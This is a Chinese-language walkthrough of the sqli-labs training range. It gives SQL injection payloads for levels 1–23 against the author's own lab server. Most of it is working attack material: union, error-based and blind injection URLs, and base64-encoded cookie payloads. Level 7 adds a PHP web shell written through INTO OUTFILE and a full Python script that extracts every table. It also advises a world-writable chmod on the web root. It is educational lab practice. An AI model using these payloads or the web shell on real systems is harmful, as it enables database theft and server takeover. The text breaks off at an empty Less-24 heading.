




# sqli-labs-master

- 这里我将会从头开始`通关每一个关卡`
- 我说的通关是指获取到`最终的一组数据才算`
- `第7关`是例外,所以我修改了参数(赋予了写的权限)

```bash
sudo chmod -R 777 /var/www/html
```

- 同样的道理,在`前面`我会写得`很详细`,到`后面`可能简单的部分`就会扫过`
- 我说的`简单`指的是payload差别不大,只是`闭合方式不同的`
- 需要`注意`的是`referers`,`uagents`这两张表没有数据,中间写了只是用作`演示`
- 如果写得这么详细读者都没办法`读懂`,那么建议回去`好好学习sql注入`
- 如果没有`耐心`读完这些,那么建议再找两个人`玩玩斗地主`
- 相信读完一定有所收获,看不懂的建议先`复现(多敲几遍)`,实在懂不了就`死记硬背`,绝对比高考轻松多了!

****

### Less-1(联合查询->`'`闭合)

```sql
#判断是否存在sql注入
http://8.137.60.154:8082/Less-1/?id=1'
```


```sql
#判断回显点
http://8.137.60.154:8082/Less-1/?id=1'order by 4 --+
```


```sql
#判断回显点
http://8.137.60.154:8082/Less-1/?id=1'order by 3 --+
```


```sql
#尝试显示回显点,使用联合查询时需要注意把id替换为不存在的数
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,3 --+
```


```sql
#获取数据库名
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,database() --+
```


```sql
#获取表名
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```


```sql
#获取emails表的字段
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="emails"--+
```


```sql
#获取数据
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(id,email_id) from security.emails--+
```


****

### Less-2(联合查询->无闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,3 
```


```sql
#回显出来了以后就跟第一关一样了
#获取数据库名
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,database() 

#获取表名
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() 

#获取referers表的字段
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="referers" 

#获取数据
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(id,referer,ip_address) from security.referers 
```

****

### Less-3(联合查询->`')`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-3/?id=-1'union select 1,2,3 --+
```


```sql
#回显数据
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,3 --+
```


```sql
#获取数据库名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,database() --+

#获取表名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

#获取uagents字段名
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="uagents"--+

#获取数据
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,group_concat(id,uagent,ip_address,username) from security.uagents --+
```

****

### Less-4(联合查询->`")`闭合)

```sql
#判断回显点
http://8.137.60.154:8082/Less-4/?id=1"
```


```sql
#显示回显
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,3 --+
```


```sql
#获取数据库名
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,database() --+

#获取表名
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

#获取users表的字段
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users" --+

#获取数据
http://8.137.60.154:8082/Less-4/?id=-1")union select 1,2,group_concat(id,username,password) from security.users --+
```


****

### Less-5(报错注入->`'`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-5/?id=1'
```


- 这一关相信大家可能发现了,没有回显,页面只显示`You are in ...`
- 可能大家会想到用`盲注`,但是盲注很费时间,按照先后顺序,`才第五关怎么就开始考察盲注了`
- 转变一下使用`报错注入`,这儿括号有点多,没办法细讲,下来自己去属性`相关函数`的`参数个数`

```sql
#获取数据库名
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a))--+
```


```sql
#获取表名
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))--+
```


```sql
#获取users表的字段
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"),0x3a))--+
```


```sql
#获取数据(这儿数据没法显示完整)
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(id,username,password) from security.users),0x3a))--+
```


****

### Less-6(报错注入->`"`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-6/?id=1"
```


```sql
#获取表名
http://8.137.60.154:8082/Less-6/?id=1"and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))--+
```


- 除了`闭合方式`不同其它的payload与`第五关一致`

```sql
#获取数据
http://8.137.60.154:8082/Less-6/?id=1"and extractvalue(1,concat(0x3a,(select group_concat(id,username,password) from security.users),0x3a))--+
```

****

### Less-7(很有意义的关)

- 本关的考察点是`数据外带`,但是我的靶场是服务器的`docker搭建`的,与我的物理机无法通信
- 改起来很麻烦,直接用`into outfile`写shell

- 需要确保数据库有写的权限,知道绝对路径

```sql
http://8.137.60.154:8082/Less-7/?id=-1')) union select 1,2,"<?php phpinfo();@eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+
```



- 连接`蚁剑`看看


- 也可以用`sqlmap`跑,但是我觉的没有意义

- ```cmd
  sqlmap -u "http://8.137.60.154:8082/Less-7/?id=1" --dbs
  ```

  

- 使用`盲注`

  ```python
  import aiohttp
  import asyncio
  from prettytable import PrettyTable
  from colorama import Fore, Style  # 导入 colorama
  
  url = "http://8.137.60.154:8082/Less-7/"
  max_length = 20  # 假设字段最大长度为20
  
  # 定义要使用的字符集
  charset = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
             'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x',
             'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7',
             '8', '9', '_', '$', '@', '(', ')', '-', '.', '[', ']', '^',
             '{', '}', '~']
  
  async def fetch(session, payload):
      async with session.get(url + payload) as response:
          return await response.text()
  
  async def get_database_name(session):
      db_name = ""
      for length in range(1, 11):
          for char in charset:
              payload = f"?id=1')) AND SUBSTR(database(), {length}, 1)='{char}' --+"
              r = await fetch(session, payload)
              if "You are in.... Use outfile......" in r:
                  db_name += char
                  print(Fore.GREEN + f"数据库名字符 {length}: {char}" + Style.RESET_ALL)
                  break
      return db_name
  
  async def get_table_names(session):
      table_names = []
      table_count = 0
      for count in range(1, 11):
          payload = f"?id=1')) AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())={count} --+"
          r = await fetch(session, payload)
          if "You are in.... Use outfile......" in r:
              table_count = count
              break
  
      print(Fore.YELLOW + f"表的个数: {table_count}" + Style.RESET_ALL)
  
      for row in range(table_count):
          table_name = ""
          for length in range(1, max_length + 1):
              for char in charset:
                  payload = f"?id=1')) AND SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT {row}, 1), {length}, 1)='{char}' --+"
                  r = await fetch(session, payload)
                  if "You are in.... Use outfile......" in r:
                      table_name += char
                      print(Fore.BLUE + f"表名 {row + 1} 字符 {length}: {char}" + Style.RESET_ALL)
                      break
          table_names.append(table_name.strip())
  
      print(Fore.CYAN + f"获取的表名: {table_names}" + Style.RESET_ALL)
      return table_names
  
  async def get_fields_and_data(session, table_names):
      all_data = {}
      for table_name in table_names:
          column_names = []
          column_count = 0
  
          for count in range(1, 11):
              payload = f"?id=1')) AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}')={count} --+"
              r = await fetch(session, payload)
              if "You are in.... Use outfile......" in r:
                  column_count = count
                  break
  
          print(Fore.YELLOW + f"表 '{table_name}' 的字段个数: {column_count}" + Style.RESET_ALL)
  
          for row in range(column_count):
              column_name = ""
              for length in range(1, max_length + 1):
                  for char in charset:
                      payload = f"?id=1')) AND SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}' LIMIT {row}, 1), {length}, 1)='{char}' --+"
                      r = await fetch(session, payload)
                      if "You are in.... Use outfile......" in r:
                          column_name += char
                          print(Fore.BLUE + f"字段 '{table_name}' 字符 {length}: {char}" + Style.RESET_ALL)
                          break
              column_names.append(column_name.strip())
  
          print(Fore.CYAN + f"获取的字段名: {column_names}" + Style.RESET_ALL)
  
          rows_count = 15
          data = []
          for row in range(rows_count):
              row_data = {}
              for field in column_names:
                  field_data = ""
                  for length in range(1, max_length + 1):
                      for char in charset:
                          payload = (
                              f"?id=1')) AND SUBSTR((SELECT {field} FROM {table_name} LIMIT {row}, 1), {length}, 1)='{char}' --+"
                          )
                          r = await fetch(session, payload)
  
                          if "You are in.... Use outfile......" in r:
                              field_data += char
                              print(Fore.GREEN + f"第{row + 1}行, 字段 '{field}', 字符 {length}: {char}" + Style.RESET_ALL)
                              break
                      else:
                          break
                  row_data[field] = field_data.strip()
  
              if row_data and any(row_data.values()):
                  data.append(row_data)
  
          all_data[table_name] = data
  
      return all_data
  
  async def main():
      async with aiohttp.ClientSession() as session:
          database_name = await get_database_name(session)
          table_names = await get_table_names(session)
          data = await get_fields_and_data(session, table_names)
  
          print("\n最终获取的信息:")
  
          db_table = PrettyTable()
          db_table.field_names = ["Database"]
          db_table.add_row([database_name])
          print(db_table)
  
          for table, rows in data.items():
              print(f"\n表名: {table}")
              table_output = PrettyTable()
              if rows:  # 检查是否有行数据
                  table_output.field_names = rows[0].keys()
                  for row in rows:
                      table_output.add_row(row.values())
                  print(table_output)
              else:
                  print(Fore.RED + f"该表没有数据。" + Style.RESET_ALL)
  
  if __name__ == "__main__":
      asyncio.run(main())
  
  ```

  

****

### Less-8(布尔盲注->`'`闭合)

- 盲注说白了就是盲猜,猜对了就会显示`You are in ....`

```sql
#判断数据库名长度8-->security
http://8.137.60.154:8082/Less-8/?id=1'and length(database())=8 --+
```


```sql
#获取数据库名
http://8.137.60.154:8082/Less-8/?id=1'and substr(database(),1,1)="s" --+
```

- 在 MySQL 中，数据库名的大小写敏感性取决于操作系统和 MySQL 的配置。

  > **操作系统影响**

     - **在 Windows 上**：Windows 的文件系统是 **大小写不敏感的**，因此在 Windows 上 MySQL 默认对数据库名、表名不区分大小写。这意味着：
       - `SELECT * FROM MyDatabase.table` 和 `SELECT * FROM mydatabase.table` 是等效的。
     
     - **在 Linux/Unix 上**：这些系统的文件系统通常是 **大小写敏感的**，因此 MySQL 在 Linux/Unix 上默认对数据库名和表名是 **区分大小写的**。也就是说：
       - `MyDatabase` 和 `mydatabase` 被视为两个不同的数据库。

  > **MySQL 配置选项**

     MySQL 提供了一个配置参数 `lower_case_table_names`，可以控制数据库名和表名的大小写敏感性：

     - **0 (大小写敏感)**：数据库名和表名区分大小写（通常在 Linux/Unix 上）。
     - **1 (大小写不敏感)**：数据库名和表名不区分大小写，所有的表名和数据库名会被存储为小写（通常在 Windows 上）。
     - **2 (保存定义时的大小写，不区分大小写)**：查询时不区分大小写，但存储时保持定义时的大小写。

     你可以在 MySQL 配置文件 `my.cnf` 或 `my.ini` 中设置这个参数：
     ```ini
     [mysqld]
     lower_case_table_names = 1  # 设置为 1 表示不区分大小写
     ```

  >  **检查当前 `lower_case_table_names` 配置**

     你可以通过以下查询查看当前 MySQL 的 `lower_case_table_names` 配置：
     ```sql
     SHOW VARIABLES LIKE 'lower_case_table_names';
     ```

     这将返回当前的设置值。根据值的不同，可以知道数据库名和表名是否区分大小写。

  > 结论

  - 如果是在 Linux/Unix 上运行 MySQL，并且 `lower_case_table_names` 设置为 `0`，那么数据库名是区分大小写的，不能划等号。
  - 如果是在 Windows 上或设置了 `lower_case_table_names=1`，那么数据库名不区分大小写，大小写不同的数据库名可以划等号。

  ****

  - 构造字典`[a-z],[A-Z],_,$`

  


- 开始`抓包爆破`,我在字典里字母大小写都放进去了
- 但是得到结果丝毫不影响我们获取数据库名


```cmd
#整理一下--> security
1,s,S
2,e,E
3,c,C
4,u,U
5,r,R
6,i,I
7,t,T
8,y,Y
```

```sql
#获取表的个数emails,referers,uagents,users-->4 
http://8.137.60.154:8082/Less-8/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

```sql
#获取第四张表的名字-->users
http://8.137.60.154:8082/Less-8/?id=1'and substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1)="u" --+
```


```sql
#一次性获取4张表的名字(三个变量x,y,z)
http://8.137.60.154:8082/Less-8/?id=1'and substr((select table_name from information_schema.tables where table_schema=database() limit x,1),y,1)="z" --+
```


```sql
0,1,e
0,1,E
0,2,m
0,2,M
0,3,a
0,3,A
0,4,i
0,4,I
0,5,l
0,5,L
0,6,s
0,6,S
1,1,r
1,1,R
1,2,e
1,2,E
1,3,f
1,3,F
1,4,e
1,4,E
1,5,r
1,5,R
1,6,e
1,6,E
1,7,r
1,7,R
1,8,s
1,8,S
2,1,u
2,1,U
2,2,a
2,2,A
2,3,g
2,3,G
2,4,e
2,4,E
2,5,n
2,5,N
2,6,t
2,6,T
2,7,s
2,7,S
3,1,u
3,1,U
3,2,s
3,2,S
3,3,e
3,3,E
3,4,r
3,4,R
3,5,s
3,5,S
```

- 按顺序整理->`emails,referers,uagents,users`

```sql
#获取users表的字段个数
http://8.137.60.154:8082/Less-8/?id=1'and ((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3)--+

#获取users表的字段名
http://8.137.60.154:8082/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit x,1),y,1) = "z" --+
```


- 可以得到匹配的字段名,`id`,`username`,`password`

****

### Less-9(时间盲注->`'`闭合)

- 本关我在做的时候发现只要传了`id`这个参数,就会显示`you are in ...`
- 且没有任何报错提示,很明显是`时间盲注`

```sql
#判断数据库名字长度->8
http://8.137.60.154:8082/Less-9/?id=1'and if(length(database())=8,sleep(3),1) --+

#获取数据库名->security
http://8.137.60.154:8082/Less-9/?id=1'and if(substr(database(),1,1)="s",sleep(3),1) --+
```


```sql
#获取表的个数->4
http://8.137.60.154:8082/Less-9/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(3),1) --+

#获取表名
http://8.137.60.154:8082/Less-9/?id=1'and if((substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)="e"),sleep(3),1) --+
```


```sql
#获取users表的字段-id,username,password
http://8.137.60.154:8082/Less-9/?id=1'and if((substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1),1,1)="i"),sleep(3),1) --+
```


****

### Less-10(时间盲注->`"`闭合)

```sql
#除了闭合方式不同,payload同 Less-9
http://8.137.60.154:8082/Less-10/?id=1"and if((substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1),1,1)="i"),sleep(3),1) --+
```

****

### Less-11(post->`'`闭合)

- 看到这种登录框的直接`抓包`


- 获取`数据库名`


- 获取`表名`


- 获取`users`表的字段



- 获取`所有数据`


****

### Less-12(post->`")`闭合)

- 本关跟上一关猜测应该是闭合方式不一样
- 先试试`"`闭合


- 那我们加一个`)`试试


- 那我们直接获取数据咯


****

### Less-13(post报错注入->`'`闭合)

- 咱们遇到这种不知道闭合方式的,就想办法先让它`报错`


- 试试`')`闭合


- 那么闭合方式就是这个了,没有问题
- 但是我们再写paylaod的时候发现`没有数据回显`
- 但是sql语句错误会有提示,那么应该是使用`报错注入`


- 获取`users`表的字段


- 获取`最终的数据`



****

### Less-14(post报错注入->`"`闭合)

- 这关很明显也是`报错注入`,咱们先让它报错


- 那就闭合方式一个一个试试


- 我们直接获取`最终的数据`


****

### Less-15(布尔盲注->`admin'`闭合)

- 本关经过测试发现,在页面上不会显示任务sql语句语法错误的信息
- 但是当我们使用`admin admin`登录就会显示`sucess`的图片,失败则是`faild`
- 很明显需要使用`布尔盲注`了,这里我换`burp`,`yakit`加载不出`响应的图片`


- 判断`数据库名长度`->8


- 直接获取`users`表的字段,构造字典


- `id,username,password`

****

### Less-16(布尔盲注->`admin")`闭合)

- 判断闭合方式`")`


- 判断数据库名长度->8


- 可以发现除了闭合方式不同,payload和15关基本一样

****

### Less-17(报错注入updatexml->`'`闭合)

- 试了一会儿,发现注入点在`password`


- 然后我们在这儿尝试的时候发现它会报错,那么我们绝对不会先考虑用盲注,而是尝试`报错注入`
- 我们尝试使用`updatexml`,这个跟`extractvalue`很像,唯一就是多了一个参数


- 获取`users`表的字段


****

### Less-18(UA头报错注入)

- 这关有一点难度,不多试几次很难发现后面还要一个`'`闭合



- 获取`数据库名`


- 获取`users`表的字段


****

### Less-19(referer报错注入)

- 先登录admin看看,显示什么


- 那么注入点应该是在`referer`


- 获取`字段名`


****

### Less-20(cookie报错注入)

- 先登录看看


- 抓包开始注入


- 其它数据获取大差不差

****

### Less-21(cookie报错注入->报错+base64)

- 看到`==`就应该想到`base64`编码

```sql
admin'and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a)) and 1='#

YWRtaW4nYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDNhLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDNhKSkgYW5kIDE9JyM=
```


****

### Less-22(cookie报错注入->报错+base64)

```sql
admin"and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a))#

YWRtaW4iYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDNhLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDNhKSkj
```


****

### Less-23(报错注入)

```sql
#获取表名
http://8.137.60.154:8082/Less-23/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a)) and 1='#
```


****

### Less-24()
